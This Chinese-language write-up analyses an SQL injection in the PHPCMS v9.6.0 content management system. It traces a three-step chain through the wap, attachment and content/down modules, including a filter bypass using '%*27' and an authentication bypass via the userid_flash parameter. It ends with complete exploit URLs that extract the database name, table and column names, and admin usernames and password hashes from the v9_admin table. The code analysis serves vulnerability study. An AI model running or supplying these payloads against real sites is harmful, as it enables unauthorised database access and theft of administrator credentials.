

PHPCMSv9.6.0-wap模块SQL注入
过程
第一步：利用wap模块下的index.php，构造数据包发送get请求，得到一个cookie值：
发送：
1 | /index.php?m=wap&c=index&siteid=1 |
第二步：在attachment下的attachment.php里的swfupload_json()函数中，构造payload，post传递第一步得到的cookie的值，得到一个以json形式存储的加密数据的cookie值：
发送：
1 | /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26 |
得到一个cookie值。
第三步：将第二步得到的json加密数据作为a_k参数的值进行get传参，这里利用到的是content下的down.php：
发送：
1 | /index.php?m=content&c=down&a_k=5ba0VHvGmPWaWddcaed1Rfpp_M6KVCoZ5KcEEkx9dUktRfVsaZ6J4odXZVrA2C8CZ1Yl88r0t-_Tr0HNr-U1r5cDHMtWKbWjnjuQx1ClGe4fXe2F6Ghv0xKyYT91Qt64wRpYy3EwL-iaBl20j0POmXQpCKdlr_qjSbEQTTbmsOWHIE42eCqcqjM |
最终通过报错语句的回显，爆出数据库的user。
以上是整个注入的利用过程，下面来逐步进行分析该注入点的利用方法。我们从第三步开始倒推：
代码分析
第三步
在第三步中，我们通过SQL语句的报错信息得到用户信息，找到content模块下的down.php文件进行分析：
寻找a_k参数出现的位置，根据变量的搜索找到函数init()：
分析一下该函数的使用过程，结合xdebug进行变量分析：
可以看到经过sys_auth()函数处理后，将a_k参数解密的内容解密成字符串形式：
1 | {"aid":1,"src":"&id=%27 and updatexml(1,concat(1,(user())),1)#&m=1&f=haha&modelid=2&catid=7&","filename":""} |
跟进sys_auth()函数查看过程：
能看到在该参数中存在报错注入的语句，$id的值为 ‘ and updatexml(1,concat(1，(user())),1)#
这里能从$src中将id分离出来是因为parse_str()函数会将字符串解析成多个变量。
如下图代码所示，age也变为一个单独的变量名被使用。
因此在源代码中传进去的$src经过parse_str()函数后，也会将id看成一个单独的变量，并且它的值等于&id=%27 and updatexml(1,concat(1,(user())),1)#。
查看发现$id在26行代码中被使用，使用了get_one()函数处理，跟进：
先调用的是model.class.php中的get_one函数传输参数$data=”*”，
紧接着使用sqls函数处理变量$where，跟进函数：传输变量$where的值为id= ‘’ and updatexml(1,concat(1，(user())),1)#’（键值对的形式存储）
紧接着调用db类中的get_one()函数，

db_mysqli.class.php下：
1 | $data = "*"，$where="`id`=''and updatexml(1,concat(1，(user())),1)#'" |
经过该函数的处理：
$where前拼接WHERE
$sql就变为：
然后经过execute()函数，跟进：
如果SQL语句错误，会通过mysqli_error()函数返回错误描述，因此，我们找到了注入的触发点。
总结这一步骤：通过sys_auth()函数对a_k的值进行解密，然后通过$id找到get_one()函数，然后找到了SQL语句的代码，并找到语句的触发点为execute()方法。
那么a_k的加密字符串是从哪里得来的呢，从这里追溯到第二步。
第二步
找到attachment下的attachments.php中的swfupload_json()函数：
1 | /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26 |

1 | 该函数接收get变量传入的$aid，get传入变量src后会将参数交给safe_replace()处理，$filename我们没有进行传值，略过这一行代码。然后将get得到的$aid和$src的值使用json_encode()函数处理成json类型编码数据存储形式。下面一个if语句需要判断$att_arr_exist_tmp的值，追溯$att_arr_exist，该参数取经过param下的get_cookie方法处理att_json的结果。如果经过||分割后的$att_arr_exist的值是一个数组并且$json_str在$att_arr_exist_tmp这个数组里面的话返回true，否则执行else语句，调用set_cookie。 |
因此这里我主要分析三个点，找到safe_replace()处理的过程，能得到返回的结果；找到get_cookie处理的过程和返回的结果，以此作为语句执行的依据。第三点，如果执行的是else语句，跟进set_cookie()查看处理过程。
第一点：safe_replace()处理
首先解决第一个问题，跟进safe_replace()函数：

1 | 可以看到该函数会将%*27中的*号替换为空，因此构造成了%27，也就是单引号，如果直接写成%27，那么经过该函数处理，%27就会被过滤掉。这就是为什么要写成%*27的原因。 |
第二点：跟进get_cookie方法，查看返回结果。
param.class.php：
1 | 因为$var变量不是数组，因此跳过if语句直接执行return，返回$value也就是$default的值，即返回空。 |
回到一开始的语句：
$att_arr_exist结果为空，执行else语句。
1 | $json_str="{"aid":1,"src":"&id=%*27 and updatexml(1,concat(1,(user())),1)#&m=1&f=haha&modelid=2&catid=7&",filename":""}" |
第三点：跟进set_cookie()函数：
1 | $var为变量名att_json，$value为变量的值"{"aid":1,"src":"&id=%*27 and updatexml(1,concat(1,(user())),1)#&m=1&f=haha&modelid=2&catid=7&",filename":""}"， |
$var加上了经过load_config函数处理后的前缀，得到的值为QskZK_att_json：
$value经过sys_auth()函数的加密处理，返回加密后的结果，也就是第二步中响应得到的cookie值。
至此，我们也解决了第三步遗留下来的为什么参数值是加密的问题。
但是这里，我们注意到，第二步在进行数据包构造的时候，post传递了一个值：
userid_flash=7dc9eozxw0p58awdGBJQPHJ0QG1wzjEDi8UJjMgh
为什么要进行userid的传参呢？这是因为在执行attachments.php是，代码中存在对userid的验证，往上找到__construct()函数：
这里可以看到对userid的值进行了判断，如果userid不存在的话，会跳出需要登录的提示，无法继续执行我们第二步构造所期望的代码。
往上找到userid的定义：
1 | $this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::*get_cookie*('_userid') ? param::*get_cookie*('_userid') : sys_auth($_POST['userid_flash'],'DECODE')); |
post提交一个参数userid_flash，并且这个值会经过sys_auth()函数进行解密。
因此如果我们提交一个post的值是经过sys_auth()函数加密的，就可以绕过对userid的验证。
第一步
这里我们找到了wap模块下的index.php：
这里我们传入的siteid为1，经过三目运算符的处理，执行到第九行的代码，跟进set_cookie()的处理：
执行else语句，会将变量siteid的值1，经过sys_auth()函数加密，将加密后的值作为cookie返回给客户端。
因此我们也成功找到了第二步中需要的加密点。
整体梳理
这里，我们再从第一步正向整理一下分析的过程：
第一步中，我们调用了wap模块下的__construct()函数处理siteid=1时会使用sys_auth()函数加密并且设置cookie的点，在第二步中，我们使用userid的值绕过对userid的判断，使用attachments()中的swfupload_json()函数，构造报错注入语句，使用set_cookie()和sys_auth()函数对构造的值进行加密处理，这一步中返回的att_json的值刚好可以作为第三步中$a_k的值，$a_k的值会经过sys_auth()函数进行解密，并触发get_one()中调用的execute()函数，执行了第二步中构造的SQL注入报错语句。
代码的分析思路主要是通过get_cookie()、set_cookie()以及sys_auth()这几个关键的点联系起来的。
构造exp
获取数据库名
1 | /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28database%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26 |
爆破表名
1 | /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%280x7e%2C%28select%20table_name%20from%20information_schema.tables%20where%20table_schema=database%28%29%20limit%200%2C1%29%29%2C3%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26 |
爆破字段名
1 | /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%280x7e%2C%28select%20group_concat%28column_name%29%20from%20information_schema.columns%20where%20table_schema=database%28%29%20and%20table_name=%*27v9_admin%*27%29%29%2C3%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26 |
爆破字段内容
1 | /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%280x7e%2C%28select%20group_concat%28username%2Cpassword%29%20from%20v9_admin%29%29%2C3%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26 |